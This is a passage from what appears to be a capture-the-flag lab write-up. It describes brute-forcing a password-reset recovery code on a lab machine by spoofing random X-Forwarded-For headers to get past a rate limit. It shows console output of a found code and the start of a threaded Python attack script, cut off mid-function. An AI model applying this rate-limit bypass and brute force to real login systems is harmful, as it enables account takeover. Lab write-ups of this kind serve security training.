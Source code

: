 ```python
if __name__ == "__main__":
    main()


```
{: file="brute_force_code.py"}

First, it makes a password reset request for `tester@hammer.thm`. After that, it starts multiple threads to try different recovery codes with randomly generated IP addresses for the `X-Forwarded-For` header, and if it finds the right code, it prints the response to it, so we can see the next step.

> Even though we bypassed the rate limit, we still only have 180 seconds for brute-forcing the recovery code, and this script is only able to try approximately 3000–3500 codes during that time frame. This gives you a 1/3 chance of success, so you might need to run it multiple times. Also, you might try increasing the thread count, but I was getting too many timeout errors with any more than 50.
{: .prompt-warning }

Running the script, we see the next step after entering a valid code: a form for setting a new password.

```console
$ python3 brute_force_code.py
[+] Sending the password reset request.
[+] Starting the code brute-force.
[+] Found the recovery code: 6545
[+] Printing the response:
...
<h3 class="text-center">Reset Your Password</h3>
    <form method="POST" action="">
        <div class="mb-3">
            <label for="new_password" class="form-label">New Password</label>
            <input type="password" class="form-control" id="new_password" name="new_password" required>
        </div>
        <div class="mb-3">
            <label for="confirm_password" class="form-label">Confirm New Password</label>
            <input type="password" class="form-control" id="confirm_password" name="confirm_password" required>
        </div>
        <button type="submit" class="btn btn-primary w-100">Reset Password</button> <p></p>
        <button type="button" class="btn btn-primary w-100" style="background-color: red; border-color: red;" onclick="window.location.href='logout.php';">Cancel</button>
</form>
...
```
{: .wrap }

### Resetting the Password

Now that we know the next step after brute-forcing the code, we can modify our script a bit to also submit a new password upon discovering the valid code.

```python
#!/usr/bin/env python3

import requests
import random
import threading

url = "http://10.10.63.156:1337/reset_password.php"
stop_flag = threading.Event()
num_threads = 50


def brute_force_code(session, start, end):
    for code in range(start, end):
```